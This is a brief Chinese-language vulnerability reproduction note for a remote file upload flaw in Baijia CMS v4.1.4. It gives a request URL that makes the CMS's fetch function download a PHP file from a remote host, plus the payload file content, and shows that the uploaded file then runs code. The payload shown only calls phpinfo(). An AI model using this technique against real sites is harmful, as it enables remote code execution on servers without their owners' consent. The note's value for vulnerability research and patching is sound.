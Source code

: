 ```yaml
---
title: 百家cms v4.1.4 远程文件上传漏洞
id: zhfly3326
---
```


# 百家cms v4.1.4 远程文件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php 
```

远程服务器起一个/test/test.php，内容为**<?php echo "<?php phpinfo();";**

![image](../img/39999f90abcf972682a6189f75090a48.png)

访问payload，得到路径

![image](../img/56af57b31855bc82a23a1c6c00f35eda.png)

访问路径，执行代码

![image](../img/517a7a6d2e5f0382649af0125913612d.png)

查看本地文件

![image](../img/31fb994977a2034251065c0934491eff.png)

## 参考链接

> https://xz.aliyun.com/t/7542